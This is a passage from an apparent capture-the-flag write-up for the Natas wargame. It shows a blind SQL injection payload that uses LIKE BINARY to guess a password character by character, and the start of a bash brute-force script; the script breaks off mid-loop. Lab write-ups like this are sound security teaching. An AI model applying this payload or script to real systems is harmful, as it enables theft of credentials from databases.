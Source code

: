 So we confirm that `natas16` exists in the database.

#### BLIND SQL INJECTION

If we perform a SQL injection that sneaks a password test into the query, we
can keep sending requests to the webapp to see if the username/passwd combo
we supplied returns "The user exists" string (which means a successful SQL
query against the database which means we guessed a valid user + password
combination).

The SQL `LIKE` operation will help speed up our seach as we can do a pattern
match search starting at the first charactor and looking for success and then
moving on character by character until we have found 32 characters (the length
of prior level passwords).

Our SQL injection will be something like this:

```
USERNAME='natas16" AND password LIKE BINARY "$PW%'
```

.. where `$PW` is the pattern we are testing as that will result in the query:

```
SELECT * from users where username="natas16" AND password LIKE BINARY "$PW%"
```

#### BRUTE FORCE

Wrote the following script to help with the process..

```
$ cat script.sh
#! /bin/bash

rawurlencode() {
  local string="${1}"
  local strlen=${#string}
  local encoded=""
  local pos c o

  for (( pos=0 ; pos<strlen ; pos++ )); do
     c=${string:$pos:1}
     case "$c" in
        [-_.~a-zA-Z0-9] ) o="${c}" ;;
        * )               printf -v o '%%%02x' "'$c"
     esac
     encoded+="${o}"
  done
  echo "${encoded}"    # You can either set a return variable (FASTER)
  REPLY="${encoded}"   #+or echo the result (EASIER)... or both... :p
}

export PASSWORD
export COUNT


# we assume the password length is 32
for i in {0..31}
do

  # loop through all valid possible characters
  for CH in {{0..9},{a..z},{A..Z}}
  do
    PASSWORD[$i]=$CH
    TESTSTRING=$(printf "%s" "${PASSWORD[@]}")

    #
```